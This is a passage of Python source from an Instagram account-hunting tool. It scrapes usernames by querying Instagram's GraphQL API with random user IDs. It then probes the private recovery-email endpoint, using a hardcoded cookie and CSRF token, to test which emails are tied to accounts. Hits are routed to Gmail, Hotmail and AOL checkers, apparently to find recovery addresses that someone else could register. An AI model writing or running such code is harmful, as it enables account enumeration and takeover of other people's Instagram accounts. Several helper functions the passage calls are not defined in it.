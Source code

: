 	def CCINSTA(email):
		global bad2, gig
		
		try:
				headers = {
				    'User-Agent': str(uu()) ,
				    'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
				    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
				}
				data = {
				    'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.' + json.dumps({
				        '_csrftoken': '9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
				        'adid': ExI ,
				        'guid': ExI ,
				        'device_id': ExI ,
				        'query': email
				    }),
				    'ig_sig_key_version': '4',
				}
				response = pp('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
				if 'ok' in str(response):
					gig += 1
					ply()
					if '@hotmail.com' in email:
						CCHOT(email)
					elif '@aol.com' in email:
						CCAOL(email)
					elif '@gmail.com' in email:
						CCGMAIL(email)
				else:
					bad2+=1
					ply()
		except Exception as e:
				''

	
	def kkk():
	    while True:
	        try:
	            data = {
	                "lsd": ''.join(random.choices(string.ascii_letters + string.digits, k=32)),
	                "variables": json.dumps({
	                    "id": int(random.randrange(10000, 8682665388)), "render_surface": "PROFILE"}),
	                "doc_id": "25618261841150840"
	            }
	            username = requests.post('https://www.instagram.com/api/graphql', headers={"X-FB-LSD": data["lsd"]}, data=data).json()['data']['user']['username']
	            return username
	        except:
	            pass
	
	def domain():
	    A = "\033[36m"
	    R = "\033[31m"
	    os.system('clear')
	    banner()
	    print(f"{R}𝟏 - {G}𝐆𝐦𝐚𝐢𝐥")
	    print(f"{R}𝟐 - {G}𝐇𝐨𝐭𝐦𝐚𝐢𝐥")
	    print(f"{R}𝟑 - {G}𝐀𝐨𝐥")
	    print(f"{R}𝟒 - {G}𝐀𝐥𝐥 𝐎𝐟 𝐓𝐡𝐢𝐬")
	    choice = input(f"\n- {R}𝐂𝐡𝐨𝐨𝐬𝐞 : {G} ")
	    os.system('clear')
	    banner()
	    return choice
	